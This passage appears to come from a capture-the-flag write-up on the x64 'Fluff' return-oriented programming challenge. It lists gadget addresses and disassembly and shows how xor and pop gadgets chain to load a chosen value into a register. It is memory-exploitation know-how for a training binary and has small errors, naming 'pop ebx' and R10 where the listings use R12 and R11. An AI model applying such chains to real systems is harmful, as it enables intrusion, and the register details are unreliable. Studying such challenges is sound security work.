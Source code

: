 <a href="/assets/img/2020-02-19-Fluff-x64/xor-r11-r12.png"><img src="/assets/img/2020-02-19-Fluff-x64/xor-r11-r12.png"></a>

The gadget at 0x0040082f performs the xor operation on R11 and R12.
If a value is loaded into R12 and xor'd with R11 (if R11 is set to zero), R11 will contain the original value set in R12 before the operation.  
```x64asm
0x0040082f      xor r11, r12
0x00400832      pop r12
0x00400834      mov r13d, 0x604060 ; '`@`'
0x0040083a      ret
```
Searching for pop ebx returns many results.

<a href="/assets/img/2020-02-19-Fluff-x64/pop-r12.png"><img src="/assets/img/2020-02-19-Fluff-x64/pop-r12.png"></a>
```x64asm
0x004008bc      pop r12
0x004008be      pop r13
0x004008c0      pop r14
0x004008c2      pop r15
0x004008c4      ret
```
The gadget at 0x004008bc will pop the next 8 bytes on the stack into R12.

Combined, the mentioned gadgets will load a value into R10 with the following sequence:  
```x64asm
StepOne:
    pop r12 ; load value on stack into R12
    pop r13
    pop r14
    pop r15
    ret
StepTwo:  
    xor r11, r11 ; zero out the R11 register
    pop r14
    mov edi, data_start
    ret
StepThree:  
    xor r11, r12 ; the xor operation will xor the contents of R12 into R11
    pop r12
    mov r13d, 0x604060 ; '`@`'
```